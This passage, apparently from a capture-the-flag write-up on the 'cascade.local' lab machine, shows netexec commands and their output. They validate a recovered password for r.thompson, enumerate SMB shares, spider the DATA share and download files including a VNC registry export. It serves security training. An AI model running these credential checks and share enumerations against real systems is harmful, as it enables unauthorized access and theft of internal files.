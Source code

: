 Let’s see if that’s a valid password for r.thompson:

```bash
nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva

result:
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

Now let’s try to enumerate the shares:

```bash
nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares

result:
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share
```

Let’s see what’s in data:

```bash
nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --spider DATA --regex .

result:
//10.10.10.182/DATA/IT/Email Archives/Meeting_Notes_June_2018.html [lastm:'2020-01-28 18:00' size:2522]
//10.10.10.182/DATA/IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log [lastm:'2020-01-29 01:19' size:1303]
//10.10.10.182/DATA/IT/Logs/DCs/dcdiag.log [lastm:'2020-01-26 22:22' size:5967]
//10.10.10.182/DATA/IT/Temp/s.smith/VNC Install.reg [lastm:'2020-01-28 20:00' size:2680]
```

There are 4 files of interest. Let’s download those:

```bash
nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --share DATA --get-file 'IT/Email Archives/Meeting_Notes_June_2018.html' Meeting_Notes_June_2018.html

nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --share DATA --get-file 'IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log' ArkAdRecycleBin.log

nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --share DATA --get-file IT/Logs/DCs/dcdiag.log dcdiag.log 

nxc smb 10.10.10.182 -u r.thompson -p rY4n5eva --share DATA --get-file 'IT/Temp/s.smith/VNC Install.reg' vnc_install.reg
```
